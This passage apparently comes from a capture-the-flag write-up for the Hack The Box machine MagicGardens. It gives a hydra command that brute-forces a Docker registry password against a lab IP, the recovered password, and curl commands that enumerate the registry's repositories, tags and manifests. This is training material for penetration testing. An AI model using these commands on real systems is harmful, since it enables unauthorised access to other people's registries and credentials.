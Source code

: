 #### Bruteforce

Let's bruteforce docker registry API password for user alex using hydra:

`hydra -l alex -P /usr/share/wordlists/rockyou.txt 10.10.11.9 -s 5000 https-get /v2/`
![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-10.png)

Password is found to be **diamonds**.

Now let's move on to enumerating docker registry with the found credentials. 

#### Dump

From [here](https://book.hacktricks.xyz/v/cn/network-services-pentesting/5000-pentesting-docker-registry), you can learn a lot more about pentesting docker registry.

Let's first try listing repositories:

`curl -k -u alex:diamonds https://10.10.11.9:5000/v2/_catalog`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-11.png)

We can get tag for the repository:

`curl -k -u alex:diamonds https://10.10.11.9:5000/v2/magicgardens.htb/tags/list`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-12.png)

We can get manifests of the repository:

`curl -k -u alex:diamonds https://10.10.11.9:5000/v2/magicgardens.htb/manifests/1.3`


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-15.png)

